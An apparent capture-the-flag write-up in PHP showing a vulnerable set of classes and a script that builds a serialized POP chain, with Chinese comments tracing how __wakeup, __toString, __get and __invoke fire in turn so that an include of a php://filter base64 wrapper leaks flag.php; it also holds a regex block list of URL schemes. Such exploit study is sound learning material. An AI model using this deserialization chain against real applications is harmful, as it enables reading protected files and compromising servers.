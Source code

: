 ```php
Welcome to index.php

<?php
class Modifier {
    protected  $var='php://filter/read=convert.base64-encode/resource=flag.php';
    public function append($value){
        include($value);
    }
    public function __invoke(){
        //当对象作为函数时调用4
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){//类被当成字符串时2
        return $this->str->source;
    }

    public function __wakeup(){//反序列化之后调用1
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){//访问一个对象的不可访问或不存在属性时调用3
        $function = $this->p;
        return $function();
    }
}

//pop链
//Get传入反序列化pop
//反序列化->触发show函数中的__wakeup->过正则匹配 防止设置 $this->source = "index.php"
//source为类，触发__toString->return $this->str->source;
//str为Test，访问Test中的source访问不到，触发__get；
//$function = $this->p;  return $function();
//p设置为Modifier，触发__invoke->调用append($this->var)
//protected  $var;将var提供base64传入

$show=new Show();
$show->source=new Show();
$show->source->str=new Test();
$show->source->str->p=new Modifier();

print(urlencode(serialize($show)));

?>
```